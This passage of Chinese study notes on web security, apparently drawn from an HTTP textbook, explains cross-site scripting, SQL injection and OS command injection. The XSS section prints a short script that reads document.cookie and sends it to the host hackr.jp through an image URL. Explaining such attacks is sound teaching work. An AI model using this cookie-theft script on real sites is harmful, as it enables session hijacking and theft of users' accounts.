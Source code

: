 有以下影响：  
- 利用虚假输入表单骗取用户个人信息
- 利用脚本窃取用户的Cookie值，被害者在不知情情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片

#### 跨站脚本案例
- 在动态生成的HTML处发生  
![跨站脚本攻击](/Blog/images/HTTP图解/11跨站脚本攻击.png)  
此时，浏览器会将用户输入的\<s>解析成HTML标签，然后显示删除线。如果换成js就有可能暴露信息。

- XSS是攻击者利用预先设置的陷阱触发的被动攻击   
创建以下代码的URL，攻击者隐藏植入事先准备好的欺诈邮件中或Web页面中，诱使用户去点击该URL。   
![跨站脚本攻击2](/Blog/images/HTTP图解/11跨站脚本攻击2.png)  
浏览器打开URI后，直观感觉没发生任何变化，但设置好的脚本确偷偷开始运行了。当用户在表单内输入ID和密码之后，就会直接发送到攻击者网站，导致个人信息被窃取。   
![跨站脚本攻击3](/Blog/images/HTTP图解/11跨站脚本攻击3.png)  

#### 对用户Cookie的窃取攻击
除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的Cookie信息。
```js
<script src=http://hackr.jp/xss.js></script>
//xss.js
var content=escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
有安全漏洞的Web应用上执行上面这段Js代码，即可访问到该Web应用所在域名下的Cookie信息。然后这些信息会发送至攻击者的Web网站（hackr.jp），记录在它的登录日志中。   
![跨站脚本攻击4](/Blog/images/HTTP图解/11跨站脚本攻击4.png)  

### 2.2 SQL注入攻击
SQL注入是指针对Web应用使用的数据库，通过运行非法的SQL而产生的攻击。会导致信息的泄露。

如果在调用SQL语句的方式上存在疏漏，就有可能执行被恶意注入非法SQL语句。  
造成的影响：  
- 非法查看或篡改数据库内的数据
- 规避认证
- 执行和数据库服务器业务关联的程序等

SQL是用来操作关系型数据库管理系统的数据库语言，可进行操作数据或定义数据等。

#### SQL注入攻击案例
![SQL注入攻击](/Blog/images/HTTP图解/11SQL注入攻击.png)  
SQL语句中的--之后全视为注释。

SQL注入攻击是攻击者将SQL语句改变成开发者意想不到的形式以达到破坏结构的攻击。

### 2.3 OS命令注入攻击
OS命令注入攻击是指通过Web应用，执行非法的操作系统命令达到攻击的目的。只要在能调用Shell函数的地方就有存在被攻击的风险。

OS命令注入攻击可以向Shell发送命令，让Windows或Linux操作系统的命令行启动程序。
